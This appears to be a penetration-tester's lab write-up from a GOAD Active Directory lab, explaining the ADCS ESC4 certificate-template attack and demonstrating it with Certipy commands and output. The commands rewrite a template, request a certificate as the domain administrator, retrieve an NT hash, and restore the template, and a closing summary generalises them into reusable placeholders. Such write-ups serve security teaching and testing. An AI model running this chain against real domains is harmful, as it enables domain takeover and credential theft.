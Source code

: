 ESC4 exploits certificate templates in Active Directory Certificate Services (ADCS) that grant Full Control permissions, allowing attackers to modify the templates to include fields like subjectAltName (SAN). This enables the attacker to request a certificate for any user, including privileged accounts, by specifying an arbitrary SAN. Combining ESC4 with ESC1, the attacker can use the obtained certificate to impersonate high-privilege users, leading to significant security risks and potential domain compromise.

![[Pasted image 20241006155102.png]]

Saving the template and making it vulnerable to the ESC1 attack:

```bash
gareth@gareth:~/pentest/GOAD/esc3$ certipy template -u khal.drogo@essos.local -p 'horse' -template ESC4 -save-old -dc-ip 192.168.56.12
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Saved old configuration for 'ESC4' to 'ESC4.json'
[*] Updating certificate template 'ESC4'
[*] Successfully updated 'ESC4'
```

Verifying template change:

![[Pasted image 20241006155529.png]]

Certificate request:

```bash
garffff@garffff:~/GOAD/esc3$  certipy req -u khal.drogo@essos.local -p 'horse' -template ESC4 -ca ESSOS-CA -upn administrator@essos.local -dc-ip 192.168.56.23
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 36
[*] Got certificate with UPN 'administrator@essos.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Authenticating and retrieving target users NTLMv1 hash:

```bash
garffff@garffff:~/GOAD/esc3$ certipy auth -pfx administrator.pfx -dc-ip 192.168.56.12
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@essos.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@essos.local': aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da
```

Restoring template to its original configuration:

```bash
garffff@garffff:~/GOAD/esc3$ certipy template -u khal.drogo@essos.local -p 'horse' -template ESC4 -configuration ESC4.json -dc-ip 192.168.56.12
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating certificate template 'ESC4'
[*] Successfully updated 'ESC4'
```

Verifying:

![[Pasted image 20241006155755.png]]

### Summary

```bash
certipy template -u <user>@<domain> -p '<password>' -template <template> -save-old -dc-ip <dc_ip>
certipy req -u <user>@<domain> -p '<password>' -template <template> -ca <ca> -upn <target_user>@<domain> -dc-ip <adcs_ip>
certipy auth -pfx <target_user>.pfx -dc-ip <dc_ip>
certipy template -u <user>@<domain> -p '<password>' -template <template> -configuration <template>.json -dc-ip <adcs_ip>
```

